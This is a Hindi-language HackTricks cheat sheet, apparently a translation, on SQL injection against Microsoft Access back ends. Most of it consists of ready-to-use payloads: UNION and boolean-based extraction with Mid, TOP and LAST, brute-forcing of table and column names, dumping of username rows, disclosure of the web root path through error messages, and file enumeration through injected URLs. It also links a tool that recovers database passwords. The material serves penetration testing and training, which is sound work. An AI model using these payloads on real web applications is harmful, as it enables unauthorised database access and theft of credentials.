 # MS Access SQL इंजेक्शन

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**टेलीग्राम समूह**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपनी हैकिंग ट्रिक्स साझा करें, HackTricks** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज में PRs सबमिट करके.

</details>

## ऑनलाइन प्लेग्राउंड

* [https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1](https://www.w3schools.com/sql/trysql.asp?filename=trysql\_func\_ms\_format\&ss=-1)

## DB सीमाएँ

### स्ट्रिंग संयोजन

स्ट्रिंग संयोजन `& (%26)` और `+ (%2b)` अक्षरों के साथ संभव है।
```sql
1' UNION SELECT 'web' %2b 'app' FROM table%00
1' UNION SELECT 'web' %26 'app' FROM table%00
```
### टिप्पणियाँ

MS access में कोई टिप्पणियाँ नहीं होती हैं, परंतु ऐसा प्रतीत होता है कि किसी क्वेरी के अंतिम भाग को NULL चरित्र के साथ हटाना संभव है:
```sql
1' union select 1,2 from table%00
```
यदि यह काम नहीं कर रहा है तो आप हमेशा क्वेरी के सिंटैक्स को ठीक कर सकते हैं:
```sql
1' UNION SELECT 1,2 FROM table WHERE ''='
```
### स्टैक्ड क्वेरीज

ये समर्थित नहीं हैं।

### LIMIT

**`LIMIT`** ऑपरेटर **लागू नहीं किया गया है**। हालांकि, SELECT क्वेरी परिणामों को **पहले N टेबल पंक्तियों तक सीमित करना संभव है `TOP` ऑपरेटर का उपयोग करके**। `TOP` एक पूर्णांक को तर्क के रूप में स्वीकार करता है, जो लौटाए जाने वाले पंक्तियों की संख्या को दर्शाता है।
```sql
1' UNION SELECT TOP 3 attr FROM table%00
```
जैसे कि **`TOP`** का उपयोग करते हैं, आप **`LAST`** का उपयोग कर सकते हैं जो **अंतिम पंक्तियों को प्राप्त** करेगा।

## UNION प्रश्न/उप प्रश्न

SQLi में आप आमतौर पर अन्य तालिकाओं से जानकारी निकालने के लिए एक नया प्रश्न निष्पादित करना चाहेंगे। MS Access हमेशा आवश्यकता होती है कि **उप प्रश्नों या अतिरिक्त प्रश्नों में एक `FROM` का संकेत दिया जाए**।\
इसलिए, यदि आप `UNION SELECT` या `UNION ALL SELECT` या एक शर्त में कोष्ठकों के बीच `SELECT` निष्पादित करना चाहते हैं, तो आपको हमेशा **एक मान्य तालिका नाम के साथ `FROM` का संकेत देना होगा**।\
इसलिए, आपको एक **मान्य तालिका नाम** जानना आवश्यक है।
```sql
-1' UNION SELECT username,password from users%00
```
### चेनिंग बराबर + सबस्ट्रिंग

{% hint style="warning" %}
यह आपको वर्तमान तालिका के मानों को बिना तालिका के नाम को जाने निकालने की अनुमति देगा।
{% endhint %}

**MS Access** जैसे **अजीब सिंटैक्स** की अनुमति देता है **`'1'=2='3'='asd'=false`**. आमतौर पर SQL इंजेक्शन **`WHERE`** क्लॉज के अंदर होगा और हम इसका दुरुपयोग कर सकते हैं।

कल्पना कीजिए कि आपके पास MS Access डेटाबेस में SQLi है और आप जानते हैं (या अनुमान लगाया है) कि एक **कॉलम का नाम username है**, और वही फील्ड है जिसे आप **निकालना** चाहते हैं। आप वेब ऐप की विभिन्न प्रतिक्रियाओं की जांच कर सकते हैं जब चेनिंग बराबर तकनीक का उपयोग किया जाता है और संभवतः **`Mid`** फंक्शन का उपयोग करके सबस्ट्रिंग प्राप्त करने के लिए **बूलियन इंजेक्शन** के साथ सामग्री निकाल सकते हैं।
```sql
'=(Mid(username,1,3)='adm')='
```
यदि आप **टेबल का नाम** और **कॉलम** जानते हैं जिसे डंप करना है, तो आप `Mid`, `LAST` और `TOP` का संयोजन करके बूलियन SQLi के माध्यम से **सभी जानकारी लीक** कर सकते हैं:
```sql
'=(Mid((select last(useranme) from (select top 1 username from usernames)),1,3)='Alf')='
```
निम्नलिखित ऑनलाइन प्लेग्राउंड में जांच करने के लिए स्वतंत्र हैं।

### टेबल नामों की ब्रूट-फोर्सिंग

चेनिंग इक्वल्स तकनीक का उपयोग करके आप **टेबल नामों की ब्रूटफोर्स** भी कर सकते हैं जैसे कि:
```sql
'=(select+top+1+'lala'+from+<table_name>)='
```
आप एक और पारंपरिक तरीका भी इस्तेमाल कर सकते हैं:
```sql
-1' AND (SELECT TOP 1 <table_name>)%00
```
_ऑनलाइन प्लेग्राउंड में इसे जांचने के लिए स्वतंत्र रहें।_

* Sqlmap सामान्य तालिका नाम: [https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt](https://github.com/sqlmapproject/sqlmap/blob/master/data/txt/common-tables.txt)
* एक और सूची [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html) में है

### कॉलम नामों की ब्रूट-फोर्सिंग

आप **वर्तमान कॉलम नामों को ब्रूट-फोर्स** कर सकते हैं चेनिंग इक्वल्स ट्रिक के साथ:
```sql
'=column_name='
```
या **group by** के साथ:
```sql
-1' GROUP BY column_name%00
```
या आप **अलग तालिका** के कॉलम नामों को ब्रूट-फोर्स कर सकते हैं:
```sql
'=(SELECT TOP 1 column_name FROM valid_table_name)='

-1' AND (SELECT TOP 1 column_name FROM valid_table_name)%00
```
### डेटा डंप करना

हम पहले ही [**चेनिंग इक्वल्स तकनीक**](ms-access-sql-injection.md#chaining-equals-+-substring) **के बारे में चर्चा कर चुके हैं जिसका उपयोग वर्तमान और अन्य टेबल्स से डेटा डंप करने के लिए किया जाता है**। लेकिन अन्य तरीके भी हैं:
```sql
IIF((select mid(last(username),1,1) from (select top 10 username from users))='a',0,'ko')
```
संक्षेप में, क्वेरी "यदि-तब" कथन का उपयोग करती है ताकि सफलता की स्थिति में "200 OK" ट्रिगर किया जा सके या अन्यथा "500 आंतरिक त्रुटि" हो। TOP 10 ऑपरेटर का लाभ उठाते हुए, पहले दस परिणामों का चयन संभव है। बाद में LAST का उपयोग करके केवल 10वें ट्यूपल पर विचार किया जा सकता है। ऐसे मूल्य पर, MID ऑपरेटर का उपयोग करके, एक सरल अक्षर तुलना की जा सकती है। MID और TOP के सूचकांक को उचित रूप से बदलकर, हम "username" फील्ड की सभी पंक्तियों की सामग्री को डंप कर सकते हैं।

### समय आधारित

[https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676(v=technet.10)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions/tn-archive/cc512676\(v=technet.10\)?redirectedfrom=MSDN) पर जांचें

### अन्य रोचक फंक्शन्स

* `Mid('admin',1,1)` स्थिति 1 से लंबाई 1 का उपस्ट्रिंग प्राप्त करें (प्रारंभिक स्थिति 1 है)
* `LEN('1234')` स्ट्रिंग की लंबाई प्राप्त करें
* `ASC('A')` अक्षर का आस्की मान प्राप्त करें
* `CHR(65)` आस्की मान से स्ट्रिंग प्राप्त करें
* `IIF(1=1,'a','b')` यदि तब
* `COUNT(*)` आइटमों की संख्या गिनें

## टेबल्स की गणना

[**यहाँ**](https://dataedo.com/kb/query/access/list-of-tables-in-the-database) से आप डेटाबेस में टेबल्स के नाम प्राप्त करने के लिए क्वेरी देख सकते हैं:
```sql
select MSysObjects.name
from MSysObjects
where
MSysObjects.type In (1,4,6)
and MSysObjects.name not like '~*'
and MSysObjects.name not like 'MSys*'
order by MSysObjects.name
```
हालांकि, ध्यान दें कि SQL Injections खोजना बहुत सामान्य है जहां आपके पास `MSysObjects` तालिका को पढ़ने की **पहुंच नहीं होती**।

## FileSystem पहुंच

### वेब रूट डायरेक्टरी का पूरा पथ

**वेब रूट के पूर्ण पथ की जानकारी आगे के हमलों को सुगम बना सकती है**। यदि एप्लिकेशन त्रुटियां पूरी तरह से छिपी नहीं हैं, तो निर्मित नहीं किए गए डेटाबेस से डेटा चुनने की कोशिश करके डायरेक्टरी पथ का पता लगाया जा सकता है।

`http://localhost/script.asp?id=1'+'+UNION+SELECT+1+FROM+FakeDB.FakeTable%00`

MS Access **वेब डायरेक्टरी के पूर्ण पथनाम के साथ एक त्रुटि संदेश प्रतिक्रिया करता है**।

### फाइल एन्यूमरेशन

निम्नलिखित हमला वेक्टर का उपयोग **दूरस्थ फाइलसिस्टम पर एक फाइल के अस्तित्व का अनुमान लगाने के लिए किया जा सकता है**। यदि निर्दिष्ट फाइल मौजूद है, तो MS Access एक त्रुटि संदेश ट्रिगर करता है जो सूचित करता है कि डेटाबेस प्रारूप अमान्य है:

`http://localhost/script.asp?id=1'+UNION+SELECT+name+FROM+msysobjects+IN+'\boot.ini'%00`

फाइलों को एन्यूमरेट करने का एक और तरीका **एक डेटाबेस.टेबल आइटम को निर्दिष्ट करने में होता है**। **यदि** निर्दिष्ट **फाइल मौजूद है**, MS Access एक **डेटाबेस प्रारूप त्रुटि संदेश प्रदर्शित करता है**।

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+C:\boot.ini.TableName%00`

### .mdb फाइल नाम अनुमान

**डेटाबेस फाइल नाम (.mdb)** निम्नलिखित क्वेरी के साथ अनुमान लगाया जा सकता है:

`http://localhost/script.asp?id=1'+UNION+SELECT+1+FROM+name[i].realTable%00`

जहां **name\[i] एक .mdb फाइलनाम है** और **realTable डेटाबेस के भीतर एक मौजूद टेबल है**। हालांकि MS Access हमेशा एक त्रुटि संदेश ट्रिगर करेगा, यह संभव है कि एक अमान्य फाइलनाम और एक मान्य .mdb फाइलनाम के बीच अंतर किया जा सके।

### .mdb पासवर्ड क्रैकर

[**Access PassView**](https://www.nirsoft.net/utils/accesspv.html) एक मुफ्त उपयोगिता है जिसका उपयोग Microsoft Access 95/97/2000/XP या Jet Database Engine 3.0/4.0 के मुख्य डेटाबेस पासवर्ड को पुनः प्राप्त करने के लिए किया जा सकता है।

## संदर्भ

* [http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
